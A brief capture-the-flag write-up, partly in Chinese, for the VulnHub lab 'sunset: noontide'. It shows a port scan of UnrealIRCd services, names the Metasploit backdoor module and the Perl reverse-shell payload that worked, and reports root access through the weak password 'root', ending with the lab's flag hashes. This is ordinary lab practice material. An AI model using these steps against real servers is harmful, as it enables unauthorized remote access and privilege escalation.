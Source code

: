 # sunset: noontide

2024-5-19 https://www.vulnhub.com/entry/sunset-noontide,531/

difficulty: easy

## IP

192.168.5.21

## Scan

Open Port -> 6667,6697,8067

```
PORT     STATE SERVICE VERSION
6667/tcp open  irc     UnrealIRCd
6697/tcp open  irc     UnrealIRCd (Admin email example@example.com)
8067/tcp open  irc     UnrealIRCd
```

通过在 msf 中搜索，找到了利用的 exp unix/irc/unreal_ircd_3281_backdoor，同时注意，目标程序的 payload 需要使用 perl 进行反弹 cmd/unix/reverse_perl，而其他的 cmd/unix/reverse 不行。设置好 rhost 后，执行就会得到反弹的 shell。

没有 sudo 程序，suid 也没有发现可利用的程序

尝试使用 su root 输入密码：root，神奇的变成了 root 权限，根据靶场描述类似，狠简单不要想复杂，是个弱密码：

```
server@noontide:~$ cat local.txt
c53c08b5bf2b0801c5d0c24149826a6e
server@noontide:~$ su
Password:
root@noontide:/home/server# cd /root
root@noontide:~# cat proof.txt
ab28c8ca8da1b9ffc2d702ac54221105
```

